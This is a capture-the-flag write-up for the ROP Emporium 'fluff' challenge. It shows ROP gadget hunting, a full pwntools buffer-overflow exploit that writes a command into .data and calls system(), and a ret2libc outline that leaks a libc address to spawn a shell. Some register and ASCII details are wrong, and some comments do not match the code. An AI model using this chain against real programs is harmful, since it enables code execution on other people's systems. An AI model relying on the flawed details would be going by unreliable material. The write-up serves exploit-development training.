


# fluff

Link: https://ropemporium.com/challenge/fluff.html

Goal: *The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done.*

------------------

First, we check the offset is still the same sending 41 "A" characters:


---------------------------------

## 5.1. Write-What-Where Gadgets

We will search for write-what-where primitives with or favorite tool:

```
python /root/tools/ROPgadget/ROPgadget.py --binary fluff | grep mov | grep "\["

ropper -f fluff
```

### First write-what-where primitive

Using ROPGadget we find only one primitive (**spoiler**: this one I could not exploit it, jump to the second write-what-where primitive if not interested): 

- 0x000000000040084f : mov dword ptr [rdx], ebx ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret

But we can not control **RDX** nor **EBX** with "pop; pop; ret" gadgets (or any other type, at least easily).

However, we find 2 XOR gadgets that could be useful:

- 0x0000000000400855 : xor byte ptr [r10], r12b ; ret

- 0x0000000000400856 : xor byte ptr [rdx], ah ; ret


Checking the [Windows x64 architecture page](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture) we find the register *r12b* is the lower 8 bits of R12 and *ah* (also known as *ax*) the 16 lower bytes of EAX.

We open the [XOR online webiste](http://xor.pw/#) and check that when we xor any value with 0, it returns the same value (A xor 0 = A). So if we find a memory address full of 0x00, we can write something there with these XOR gadgets.

We could try to do something like this:

```
xor byte ptr [rdx], ah

xor byte ptr [writable_memory], "/bin"

xor byte ptr [writable_memory+4], "//sh"
```

However we can not control RDX nor RAX with "pop; pop; ret" gadgets (or any other type, at least easily). We will check what registers we CAN control:

- R12: 0x00000000004008bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
- R13: 0x00000000004008be : pop r13 ; pop r14 ; pop r15 ; ret
- R14: 0x00000000004008c0 : pop r14 ; pop r15 ; ret
- R15: 0x00000000004008c2 : pop r15 ; ret
- RBP: 0x00000000004006b0 : pop rbp ; ret
- RSI: 0x00000000004008c1 : pop rsi ; pop r15 ; ret
- RDI: 0x00000000004008c3 : pop rdi ; ret
- RSP: 0x00000000004008bd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret /// pop rsp ; mov r13d, 0x604060 ; ret

However, we will find out we can also control EBX, EAX, [RAX] and [RDX].

#### Controlling EBX

We can make EBX = 0 with:

- 0x0000000000400823 : xor ebx, ebx ; pop r14 ; mov edi, 0x601050 ; ret

By now we don't care about the mov instruction which changes EDI or the "pop r14"

And do EBX = EBX + ESI with:

- 0x0000000000400719 : add ebx, esi ; ret

Because we can control RSI with a "pop; ret" gadget. 
So we can control EBX! And EBX was part of the write-what-where primitive we found (*mov dword ptr [rdx], ebx*)

#### Controlling EAX and [RAX]

We can make EAX to be 0:

- 0x00000000004007ae : mov eax, 0 ; pop rbp ; ret


We can make then [RAX] to be 0 too (so, where RAX is pointing can be 0):

- 0x0000000000400848 : and byte ptr [rax], ah ; ret


And with this OR we can make [RAX] what we want because we can control ESP with a "pop; ret" gadget:

- 0x0000000000400716 : or dword ptr [rax], esp ; add byte ptr [rcx], al ; ret


#### Controlling [RDX]

Now, we need to control RDX to use the write-what-where gadget or R10 to use the XOR gadget.


Interesting???

- 0x0000000000400715 : outsb dx, byte ptr [rsi] ; or dword ptr [rax], esp ; add byte ptr [rcx], al ; ret

- 0x0000000000400716 : or dword ptr [rax], esp ; add byte ptr [rcx], al ; ret

- 0x0000000000400824 : fild dword ptr [rcx + 0x5e] ; mov edi, 0x601050 ; ret

- 0x00000000004008ac : fmul qword ptr [rax - 0x7d] ; ret


### Second write-what-where primitive

As it seemed not possible to get anything with the gadgets from ROPgadget, I tried Ropper:

```
0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret; 
```


We can change R11 with:

- Set R12 value with   -> *0x00000000004008bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret* 

- R11 = 0   -> xor r11, r11 -> *0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret;*

- R11 = R12 -> xor r11, r12 -> *0x000000000040082d: pop r14; xor r11, r12; pop r12; mov r13d, 0x604060; ret;*


We can change R10 with:

- Set R12 value with   -> *0x00000000004008bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret* 

- R11 = 0   -> xor r11, r11 -> *0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret;*

- R11 = R12 -> xor r11, r12 -> *0x000000000040082d: pop r14; xor r11, r12; pop r12; mov r13d, 0x604060; ret;*

- Change R10 and R11 ->  xchg r11, r10 -> *0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret;*


From [here](https://trustfoundry.net/basic-rop-techniques-and-tricks/), we know that *xchg will swap the contents of two registers*, so we can use it in the last step to swipe R11 and R10, controlling the latter.

The idea is:

```
pop r12 ; ...; ret  # R12 = <.data address>
xor r11, r11        # R11 = 0
xor r11, r12        # R11 = R12
xcgh r11, r10       # R10 = R11 = R12 = <.data address>

pop r12 ; ...; ret  # R12 = "/bin//sh"
xor r11, r11        # R11 = 0
xor r11, r12        # R11 = R12 = "/bin//sh"

mov [r10], r11      # Write "/bin//sh" in <.data address>

```


We will find the start address of .data with:

```
objdump -x fluff
```

Knowing that **writable_memory = 0x601050** and that we will move that address to R10 and a string to R11, the schema in our minds should be something like this for the write-what-where gadget:

```
mov <[register]>, <register>

mov [r10], r11

mov [0x601050], "/bin//sh"

```


The code for the ROP until now would be:

```
# SET R10
rop += p64(pop_12_13_14_15) + 4*(p64(0x601050))      
rop += p64(xor_r11r11_pop_14) + p64(garbage)         
rop += p64(pop14_xor_r11r12_pop12) + 2*p64(0x601050) 
rop += p64(xchg_r11r10_pop15) + p64(garbage)

# SET R11
rop += p64(pop_12_13_14_15) + 4*"/bin//sh"
rop += p64(xor_r11r11_pop_14) + p64(garbage)
rop += p64(pop14_xor_r11r12_pop12) + 2*p64(garbage) #("/bin//sh")

rop += p64(writewhatwhere)
rop += p64(pop_rdi) + p64(writable_memory) + p64(system)
```

When we execute it, only one character seems to fail:


We can find out this error comes probably from the last instruction in the  write-what-where gadget, a *xor [r10], r12b* instruction:

```
0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret; 
```

Using the **writable_memory=0x601050** and sending the string "\x09/bin/sh" we see a "X" character, which is 0x58 in hexadecimal (0x50 xor 0x09 - 0x01). 



As we know this is a simple operation, we can try to make it so this first byte value in hexadecimal is 0x4F, which is the "/" character, as we can find in [the ascii table](http://www.asciitable.com/). But going to the [xor website](http://xor.pw/#) we find we should XOR 0x50 with 0x1f but it would not work (in fact, it does not work)

So to end this quickly, we will change our approach and try to send "cat fla\*", as character "c" is 0x63 in hexadecimal, so we need 0x63 xor 0x50 -0x01 = 0x33. We send the string "\x32at fla\*" and we can read the flag. Maybe adding a gadget to make this XOR in the script would have been cooler, but this works too :P



The final exploit:

```
from pwn import *


context(arch='amd64', os='linux')
binary_name = 'fluff'
p = process('./'+binary_name)
elf =  ELF(binary_name)
rop =  ROP(elf)

system = elf.sym["system"] 
pop_rdi =         (rop.find_gadget(['pop rdi', 'ret']))[0]

# .data start address
writable_memory        = 0x601050
# 0x00000000004008bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pop_12_13_14_15        = 0x4008bc
# 0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret;
xor_r11r11_pop_14      = 0x400822
# 0x000000000040082d: pop r14; xor r11, r12; pop r12; mov r13d, 0x604060; ret;
pop14_xor_r11r12_pop12 = 0x40082d
# 0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
xchg_r11r10_pop15      = 0x400840
# 0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret; 
writewhatwhere         = 0x40084e

garbage = 0x62626262
rop =  "A"*40

### SET R10 = <.data address>
rop += p64(pop_12_13_14_15) + 4*(p64(writable_memory))      
# r11 = 0; r14 = garbage
rop += p64(xor_r11r11_pop_14) + p64(garbage)         
# r14 = "a"; r11 = r12; r12 = "a"
rop += p64(pop14_xor_r11r12_pop12) + 2*p64(writable_memory) 
# r10 = r10; r15 = garbage
rop += p64(xchg_r11r10_pop15) + p64(garbage)

# SET R11
# R12 = "/bin//sh"
rop += p64(pop_12_13_14_15) + 4*"\x32at fla*"
# r11 = 0; r14 = garbage
rop += p64(xor_r11r11_pop_14) + p64(garbage)
# r14 = "a"; r11 = r12; r12 = "a"
rop += p64(pop14_xor_r11r12_pop12) + 2*p64(garbage) #("/bin//sh")

# Write "/bin//sh" in <.data address>
rop += p64(writewhatwhere)
# system("/bin//sh")
rop += p64(pop_rdi) + p64(writable_memory+1) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

--------------------------

## 5.2. Libc leakage approach

The first approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

### Rop 1: Leaking puts address

```
OFFSET = "A"*40
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p64(POP_RDI) + p64(puts_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

### Calculating libc base address

```
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
libc.address = leak - libc.symbols["puts"]
```

### Rop 2: system("/bin/sh")

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
```

